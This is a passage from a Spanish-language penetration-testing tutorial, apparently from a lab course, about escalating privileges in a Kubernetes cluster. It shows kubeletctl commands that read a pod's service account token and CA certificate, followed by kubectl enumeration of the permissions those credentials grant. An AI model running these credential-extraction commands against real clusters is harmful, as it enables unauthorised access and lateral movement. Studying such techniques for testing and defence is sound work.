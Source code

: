 
## Escalada de privilegios

Para obtener mayores privilegios y acceder al sistema de host, podemos utilizar una herramienta llamada[kubelettl](https://github.com/cyberark/kubeletctl)Para obtener la cuenta de servicio de Kubernetes`token`y`certificate` (`ca.crt`) del servidor. Para hacer esto, debemos proporcionar la dirección IP del servidor, el espacio de nombres y el POD de destino. En caso de que obtengamos este token y certificado, podemos elevar aún más nuestros privilegios, movernos horizontalmente por todo el clúster o obtener acceso a pods y recursos adicionales.

#### API Kubelet - Tokens de extracción

  Kubernetes

```shell-session
cry0l1t3@k8:~$ kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token

eyJhbGciOiJSUzI1NiIsImtpZC...SNIP...UfT3OKQH6Sdw
```

#### API de Kubelet - Extracción de certificados

  Kubernetes

```shell-session
cry0l1t3@k8:~$ kubeletctl --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt

-----BEGIN CERTIFICATE-----
MIIDBjCCAe6gAwIBAgIBATANBgkqhkiG9w0BAQsFADAVMRMwEQYDVQQDEwptaW5p
<SNIP>
MhxgN4lKI0zpxFBTpIwJ3iZemSfh3pY2UqX03ju4TreksGMkX/hZ2NyIMrKDpolD
602eXnhZAL3+dA==
-----END CERTIFICATE-----
```

Ahora que tenemos ambos`token`y`certificate`, podemos verificar los derechos de acceso en el clúster Kubernetes. Esto se usa comúnmente para la auditoría y la verificación para garantizar que los usuarios tengan el nivel correcto de acceso y no se les da más privilegios de los que necesitan. Sin embargo, podemos usarlo para nuestros fines y podemos preguntar a K8 si tenemos permiso para realizar diferentes acciones en diversos recursos.

#### Privilegios de lista

  Kubernetes

```shell-session
cry0l1t3@k8:~$ export token=`cat k8.token`
cry0l1t3@k8:~$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list

Resources										Non-Resource URLs	Resource Names	Verbs 
selfsubjectaccessreviews.authorization.k8s.io		[]					[]				[create]
selfsubjectrulesreviews.authorization.k8s.io		[]					[]				[create]
pods											[]					[]				[get create list]
...SNIP...
```

